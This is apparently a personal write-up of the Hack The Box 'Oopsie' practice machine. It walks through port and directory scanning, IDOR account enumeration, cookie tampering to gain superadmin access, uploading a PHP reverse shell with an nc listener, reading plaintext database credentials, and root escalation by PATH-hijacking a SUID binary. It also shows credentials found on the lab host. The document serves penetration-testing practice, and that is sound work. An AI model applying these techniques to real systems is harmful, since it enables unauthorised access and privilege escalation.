 ```yaml
---
title: HTB - Oopsie Walkthrough
date: 2021-08-09 14:52:15
tags: [WalkThrough, HTB, Penetration Testing, Starting Point]
---
```


# Enueration
## brief scan for open port
```
nmap -p- --min-rate=1000 -T4 10.10.10.28 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$// >> ports.txt
```
## detailed scan
```
nmap -sC -sV -p`cat ports.txt` 10.10.10.28
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-09 03:00 EDT
Nmap scan report for 10.10.10.28
Host is up (0.35s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 61:e4:3f:d4:1e:e2:b2:f1:0d:3c:ed:36:28:36:67:c7 (RSA)
|   256 24:1d:a4:17:d4:e3:2a:9c:90:5c:30:58:8f:60:77:8d (ECDSA)
|_  256 78:03:0e:b4:a1:af:e5:c2:f9:8d:29:05:3e:29:c9:f2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Welcome
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.48 seconds
```

port 80 is open, take a look use browser

try dirb：
```
dirb 10.10.10.28 -r -z 10
-r to scan non-recursively, and -z 10 to add a 10 millisecond delay to each request  

---- Scanning URL: http://10.10.10.28/ ----
==> DIRECTORY: http://10.10.10.28/css/                                                        
==> DIRECTORY: http://10.10.10.28/fonts/                                                      
==> DIRECTORY: http://10.10.10.28/images/                                                     
+ http://10.10.10.28/index.php (CODE:200|SIZE:10932)                                          
==> DIRECTORY: http://10.10.10.28/js/                                                         
+ http://10.10.10.28/server-status (CODE:403|SIZE:276)                                        
==> DIRECTORY: http://10.10.10.28/themes/                                                     
==> DIRECTORY: http://10.10.10.28/uploads/                                                    
                                                                                              
-----------------
END_TIME: Mon Aug  9 04:10:08 2021
DOWNLOADED: 4612 - FOUND: 2

```

try nikto:
```
nikto -h 10.10.10.28
```

By inspect the page source, we found `<script src="/cdn-cgi/login/script.js"></script>`

inspect `cdn-cgi/login` page

![image](/images/oopsie_login_page.png "screenshot of login page")

try sql injection:
...

WTF, we can use the obtained from first box?? are they related? use common username `admin`

find upload tab： it says `This action require super admin rights.`

`http://10.10.10.28/cdn-cgi/login/admin.php?content=accounts&id=1` can reveal account infos use burpsuite to brute force

add to intruder `Ctrl+i`, go to `position` tab, clear all the selection, then select `1` in the url, `add` 

create payload use command
```
for x in $(seq 1 100);do echo $x;done > ids.txt
```

load the payload

If necessary, setup redirection option in `option` tab: `always`, check `process cookie in redirections`

sort by response length, we found id = 30:
```
86575	super admin	superadmin@megacorp.com
```

we found there are two cookies:
```
Cookie: user=34322; role=admin
```
try to change it to
```
user=86575; role=superadmin
```

then we can access upload page:

upload the php-reverse shell, as we discovered use dirb above, there's a path `uploads/` lets try `/uploads/php-shell1.php` 

first open a listening port on `4444`
```
nc -nvlp 4444

listening on [any] 4444 ...
connect to [10.10.14.75] from (UNKNOWN) [10.10.10.28] 57424
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:25:22 up  3:11,  1 user,  load average: 0.01, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
robert   pts/1    10.10.15.98      05:55    1:26m  0.06s  0.06s -bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

get the shell for user `www-data`

in `/var/www/html/cdn-cgi/login`, found `db.php`

```
$ cat db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```
https://www.php.net/manual/en/mysqli.construct.php


ssh to `robert`

```
uid=1000(robert) gid=1000(robert) groups=1000(robert),1001(bugtracker)
```

check if bugtracker group has any special access

```
find / -type f -group bugtracker 2>/dev/null
/usr/bin/bugtracker


f      regular file
redirct stderr to null, otherwise there's a lot of permission deny error
```


```
robert@oopsie:~$ /usr/bin/bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 123
---------------

cat: /root/reports/123: No such file or directory
```

it seems bugtracker can cat file under /root/reports/, lets try /root/report/../root.txt

get the flag

the official guide give another option, the bugtracker will execute cat with root permission
```
robert@oopsie:~$ ls -l /usr/bin/bugtracker 
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
```

we could forge a cat binary with shell program
```
export PATH=/tmp:$PATH
cd /tmp/
echo '/bin/sh' > cat
chmod +x cat
```


then run `/usr/bin/bugtracker`, we gain the root shell

```
# cat filezilla.xml
<?xml version="1.0" encoding="UTF-8" standalone="yes" ?>
<FileZilla3>
    <RecentServers>
        <Server>
            <Host>10.10.10.46</Host>
            <Port>21</Port>
            <Protocol>0</Protocol>
            <Type>0</Type>
            <User>ftpuser</User>
            <Pass>mc@F1l3ZilL4</Pass>
            <Logontype>1</Logontype>
            <TimezoneOffset>0</TimezoneOffset>
            <PasvMode>MODE_DEFAULT</PasvMode>
            <MaximumMultipleConnections>0</MaximumMultipleConnections>
            <EncodingType>Auto</EncodingType>
            <BypassProxy>0</BypassProxy>
        </Server>
    </RecentServers>
</FileZilla3>
# pwd
/root/.config/filezilla
```